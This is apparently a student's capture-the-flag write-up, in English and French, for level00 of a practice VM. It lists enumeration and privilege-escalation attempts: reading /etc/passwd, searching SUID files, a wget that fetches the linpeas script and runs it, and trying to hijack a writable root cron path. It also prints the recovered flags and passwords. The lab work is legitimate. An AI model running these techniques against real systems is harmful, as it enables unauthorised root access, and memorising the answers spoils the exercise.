

## Level00:

1. Going to the root by /cd

1. cat /etc/passwd. It works. We can see the flag01 : **42hDRfypTqqnw**
    
    
    
2. i tried to connect to flag01 with this pwd but does not work
3. Then we execute `find / -perm -u=s -type f 2>/dev/null` ****to find all SUID files. We compare this list to GTFO bin list. We found that the **mtr** program could allow us to read files we should not but we don’t know the folders enough to target a file.
4. Maybe we need to target the program getflag directly. Thaks to the **Whereis getflag** command, we know getflag is in /bin/getflag.
    1. We can execute getflag. It just don’t give the password.
5. We take getflag on our own computer with **scp -P 4242 [level00@192.168.1.15](mailto:level00@192.168.1.15):/bin/getflag . (**from the host, not the VM). We can now use external tools to know what’s in getflag.
6. After that, i put getflag on DogBolt, an online decompiler
7. Trying to reverse with cutter and dogBolt does not give more infos at first glance.
8. We can execute getflag. So the question is, do we need to connect to flag00 account before runninig it to obtain the flag, or do we need to modify the getflag program behavior in order to get the flag without pass by flag00 account ?
9. We tried to search any file with the string **‘flag00’** thanks to the cmd **grep -r flag00/.** It took a while and did not help us.
10. The system seems to be ReadOnly. We can’t download or import any external content. Edit: it appears to be like this only in the rofs folder (read-only filesystem)
11. No, we can write in some places. We can see them by typing `find / -writable -type d 2>/dev/null`
12. I managed to get linpeas on the vm typing `wget "https://github.com/carlospolop/PEASS-ng/releases/latest/download/[linpeas.sh](http://linpeas.sh)" -O linpeas.sh` in the /tmp folder. Then i could run it with **bash linpeas.sh**
13. Here are the valuable infos gave by linpeas :
    1. Crontabs are related to root
    2. Searching uncommon passwd files (splunk)
    passwd file: /etc/pam.d/passwd
    passwd file: /etc/passwd
    passwd file: /usr/share/lintian/overrides/passwd
        
        z
        
    
    The we tried to run [lse.sh](http://lse.sh) :
    
    Can we write to any paths present in cron jobs.................. yes!
    
    
    
    The getFlag program takes the uid (**getuid()**) of the user who ran it to perform some checks and give or not the flag.
    
    On sait qu’on peut écrire dans un répertoire présent dans une crontab root (grâce à linpeas). Donc on fait un lien symbolique entre ce folderet getflag dans l’espoir que getflag soit lancé via la crontab root : 
    
    **ln -s /bin/getflag /var/lib/php5**
    
    On attends un peu, pas de résultats.
    
    J’essaye de copier getflag dans le dossier php5 et de le renommer en *maxlifetime* car le crontab à l’air d’exécuter ça. Toujours pas de résultat. Logique la cron semble tourner toutes les trente minutes
    
    Grace à la vidéo de snowCrash, on à un indice avec le mot FIND en majuscule. On cherche dond des fichiers qui s’appellent flag00 avec find : pas de résultat. On cherche ensuite récursivement la string ‘flag00’ dans tous les folders. Sans résultats non plus. 
    
    **Du coup on cherche les fichiers qui appartiennent à cet user : find . -user 3000 2>/dev/null**
    
    On cat le premier fichier, on envoie le bordel sur Dcode et ca donne **nottoohardhere.** On se co avec ce mdp a flag00 et on lance getflag et on obtient **x24ti5gi3x0ol2eh4esiuxias** qui nous permet de nous log avec level01